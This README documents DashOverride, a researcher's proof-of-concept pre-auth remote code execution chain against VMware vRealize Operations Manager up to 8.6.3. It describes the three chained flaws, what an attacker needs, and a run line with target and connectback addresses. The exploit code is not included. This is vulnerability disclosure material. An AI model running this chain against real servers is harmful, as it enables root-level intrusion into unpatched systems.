 # DashOverride

## What

This is a pre-authenticated RCE exploit for VMware vRealize Operations Manager (vROPS) that impacts versions <= 8.6.3.19682901.

## Author

Steven Seeley of Qihoo 360 Vulnerability Research Insititute

## Tested

The exploit was tested against 8.6.3.19682901 using the file `vRealize-Operations-Manager-Appliance-8.6.3.19682901_OVF10.ova` (SHA1: 4637b6385db4fbee6b1150605087197f8d03ba00) but it has known to work against other older versions as well.

## Notes

- This exploit chains three vulnerabilities that have been [patched](TODO). More details can be found in the [blog post](http://localhost:4000/blog/2022/01/26/from-shared-dash-to-root-bash-pwning-vmware-vrealize-operations-manager.html):

  - [CVE-TODO - MainPortalFilter ui Authentication Bypass](https://srcincite.io/advisories/src-2022-0015/)
  - [CVE-TODO - SupportLogAction Information Disclosure](https://srcincite.io/advisories/src-2022-0016/)
  - [CVE-TODO - generateSupportBundle VCOPS_BASE Privilege Escalation](https://srcincite.io/advisories/src-2022-0017/)

- This exploit will require the attacker to supply:

  - A valid dashboardlink token that will be used to bypass authentication.
  - Their own SMTP server settings, this is to ensure that exploitation works.
  - A valid Pak file that is signed by VMWare such as `APUAT-8.5.0.18176777.pak`.

- There is alot of moving parts to this exploit, hopefully I engineered it right so it works on the first shot.
- The exploit takes on average ~1m34.142s to complete (tested 5 times), I tried to engineer this to be faster, but it's within an allocated time for a competition ;->

## Run

```
researcher@mars:~$ ./poc.py 
(+) usage: ./poc.py <target> <connectback> <dashboardlink_token>
(+) eg: ./poc.py 192.168.2.196 192.168.2.234 uuncuybis9
```

## Example

![Running DashOverride](/poc.gif)

